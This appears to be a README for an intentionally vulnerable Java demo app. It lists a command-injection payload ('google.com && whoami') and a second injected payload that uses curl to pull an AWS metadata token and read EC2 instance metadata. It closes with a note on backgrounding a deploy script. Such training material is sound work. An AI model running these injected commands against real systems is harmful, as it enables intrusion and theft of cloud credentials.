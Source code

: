 Vulnerable Java App
=======================

# Vulnerable Java

Like many poorly built apps, this one contains two serious vulnerabilities:

**Code execution:**
Example exploitation- 
```google.com && whoami```


**SSRF exploit:**
Example exploitation- 
```google.com && TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/ > output && cat output```



**Note to self**
Some specific syntax is needed to start a long running process with code deploy:
```#!/bin/bash
/tmp/sleep.sh > /dev/null 2> /dev/null < /dev/null &```
